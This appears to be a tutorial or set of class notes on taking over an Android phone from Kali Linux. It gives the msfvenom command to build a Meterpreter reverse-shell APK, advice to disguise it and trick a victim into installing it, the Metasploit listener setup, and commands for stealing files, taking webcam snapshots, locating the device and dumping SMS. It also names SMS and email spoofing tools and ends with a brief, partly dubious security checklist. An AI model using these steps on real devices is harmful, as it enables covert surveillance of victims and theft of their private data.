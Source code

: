 #### **Attacker System**: Kali Linux

#### **Victim Device**: Android Phone

---

### **Steps to Create and Deliver the Payload**

1. **Generate the Malicious APK**  
    Use the following command to create the `.apk` file with malicious code:
    
    ```bash
    sudo msfvenom -p android/meterpreter/reverse_http LHOST=<attacker_ip> LPORT=<attacker_port> > hack.apk
    ```
    
    - Replace `<attacker_ip>` with the attacker's IP address.
    - Replace `<attacker_port>` with the desired port number.
    - You can try `reverse_ftp` instead of `reverse_http` for different payloads.
2. **Convince the Victim to Install the APK**
    
    - Use social engineering to make the victim install the APK file.
    - Disguise the file as a legitimate app (e.g., a game or utility).

---

### **Steps for the Hacking Process**

3. **Start Metasploit Framework**  
    Open Metasploit on Kali Linux:
    
    ```bash
    sudo msfconsole
    ```
    
4. **Set Up a Listener**  
    Use the following commands in Metasploit:
    
    ```bash
    use exploit/multi/handler
    set payload android/meterpreter/reverse_http
    set LHOST <attacker_ip>
    set LPORT <attacker_port>
    exploit
    ```
    
5. **Wait for the Victim to Connect**
    
    - Once the victim installs and opens the malicious app, the device will connect back to the attacker's listener.
    - You’ll now have a **Meterpreter session**.
6. **Control the Victim's Device**  
    In the Meterpreter session, you can execute commands like:
    
    - **Access Files**:
        
        ```bash
        ls
        download <file_path>
        upload <file_path>
        ```
        
    - **Camera Control**:
        
        ```bash
        webcam_list
        webcam_snap
        ```
        
    - **GPS Location**:
        
        ```bash
        geolocate
        ```
        
    - **Read SMS**:
        
        ```bash
        dump_sms
        ```
        

---

### **Additional Notes**

- **Pegasus Spyware Case Study**:  
    Read about how Pegasus spyware infiltrates devices and exploits vulnerabilities for surveillance.
- **Android Security Settings**:
    - Use features like _Find My Device_ and _Sound Amplifier_.

---

### **Spoofing**

- Spoofing refers to sending fake messages or emails to deceive recipients.
    - **Text Spoofing**:  
        Earlier tools included **globalsms**, **way2sms**, and **160by2**.
    - **Email Spoofing**:  
        Tools like **Emkei's Fake Mailer** allow sending fake emails.

---

### **Security Checklist**

1. **Pin Visibility**: Disable visible PIN codes on the lock screen.
2. **Default Settings**: Ensure unused settings are disabled.
3. **Location Settings**:
    - Always keep "Find My Device" enabled.
    - Keep "Privacy Settings" off to minimize unnecessary data sharing.

---

